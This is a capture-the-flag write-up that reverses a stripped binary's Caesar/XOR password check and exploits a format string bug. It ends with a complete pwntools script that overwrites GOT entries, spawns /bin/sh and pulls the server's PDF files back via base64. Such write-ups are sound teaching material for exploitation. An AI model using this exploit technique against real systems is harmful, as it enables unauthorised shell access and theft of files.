## CTF Challenge Writeup

### Step 1: Run `file` and `checksec` on the given binary



On running `file` on the executable we infer that it is a 64-bit binary, dynamically linked and stripped. Since it is stripped, we need the help of a decompiler to analyze it.



On running `checksec` we infer that it has 
- canaries and NX are enabled (NX being enabled means we can't use a shellcode).
- partial relro and pie disabled.
This hints that there might be a format string vulnerablity.

### Step 2: Run the executable and decompile it using Ghidra



We see that the executable asks for a password and gives a 4 sec window to enter the password. 



We check whether the password field has a format string vulnerability. But it doesn't.



We decompile it with `Ghidra`. Since the executable is stripped, `Ghidra` shows the entry function. The first parameter of the `__libc_start_main` function is the main function. We can rename it as such.



The main function has 3 functions `FUN_00401216()`, `FUN_00401259()`, `FUN_00401448()` (function `FUN_00401230()` is a callback to handle the alarm() and does nothing interesting)



`FUN_00401216()` just prints.



`FUN_00401259()` asks for the password. On first look we can say that this function obfuscates the input password and compares it to `cLVQjFMjcFDGQ`. Rename as `pass()`



`FUN_00401448()` is executed after the password is verified and this function does something interesting. This function has a format string vulnerability just below `printf("hello");` and then there is a system function that only lists the files in the server. Rename as `init()`

Based on these observations we can decide our course of action
- first, we reverse the password in the `pass()` function.
- second, we use the format string vulnerability to overwrite some libc function with the address of the `init()` function so that it loops arround and exploit the format string vuln as many times as required. We choose the `putc()` function to overwrite and when the function loops back, we use format string vuln to overwrite the the GOT table entry of `printf()` with system so that in the next looping, we can enter `/bin/sh`. This converts the `printf(s)` to essentially work like `system("/bin/sh")`.


### Step 3: Reversing the password

We shall rename few variables to analyze the `pass()` function




__Note__ : `input[10]` in the decompiled code and `fgets()` that writes upto 32 bytes we might think that there is a bof vulnerability but from the listing window we confirm that bof is not a possibility as the `input` is placed 0x38 bytes below the rbp as shown below.



We notice that some kind of ascii manipulation is done on each character of the input password string and then xor-ed against 0x35 (=53) to get another string which is compared to `cLVQjFMjcFDGQ`.


Observe this peculiar line. Generally, modulo (%) operation when decompiled produces a code similar to this. A rule of thumb is that `(x / divisor) * -divisor` hints at a modulo operation involved.
Thus this line is essentially `iVar1 % 26`

On closer analysis the ascii manipulation is actually a Caesar cipher with shift = 10.




So the input is first Caesar ciphered and then xor-ed character by character. 
We can reverse the xor using `xor()` from pwntools.



We can reverse the Caesar cipher using this function. Passing this `Vycd_sx_Vsqrd` to the function we get the password "Lost_in_Light"



### Step 4: Overwriting the GOT table entry of putc to init() and overwriting the GOT table entry of printf with value at the GOT address of system

To use the format string vulnerablity we need
- the offset at which the string that we control is present
- the GOT address of putc and printf() and init() address as well as value at the GOT address of system().

The offset can be found using GDB (use `handle SIGALRM nostop noprint` to ignore the SIGALARM) 



The offset is found to be 6 as the `ABCD`(0x44434241) appears at the 6 the position.

Using Ghidra we get the GOT address of putc = `0x00404048`and printf = `0x00404020` and init() function = `0x00401448` . Value at the GOT address of system = `0x00401060`.








### Step 5: Crafting the exploit

Also the presence of `system("ls *.pdf")` in `init()` suggests that the flag we are looking is in a pdf format. We are required to read the pdf from the server. In order to read we'll convert the pdfs to base64, receive the bytes, decode it from base64 and write it as local files.

So our final exploit looks like 

``` python
from pwn import *
context.binary = ELF("path/to/binary")
context.log_level = "debug"

OFFSET = 6

# from reversing pass()
password = b"Lost_in_Light"

# from ghidra
system_plt = 0x401060
init_addr = 0x401448
putc_got = 0x404048
printf_got = 0x404020

# built in pwntools functions to overwrite GOT entries
fmt1 = fmtstr_payload(offset=OFFSET, writes={putc_got: init_addr}, write_size="short")
fmt2 = fmtstr_payload(offset=OFFSET, writes={printf_got: system_plt}, write_size="short")

p = process("path/to/binary")
# For remote
# p = remote(host,port)

p.sendlineafter(b">>> ", password)
p.sendlineafter(b">>> ", fmt1)
p.sendlineafter(b">>> ", fmt2)

p.sendline(b"/bin/sh")

p.clean()

p.sendline("ls")

# receiving the files as base64 and decoding back to pdf to read the pdfs
files = p.clean().decode().strip().split("\n")
for file in files:
  p.sendline(f"base64 {file}".encode())
  encoded_file = p.clean().decode()
  with open(file, "wb") as f:
      f.write(b64d(encoded_file))
```
The flag is present in the whispers_in_the_dark.pdf.

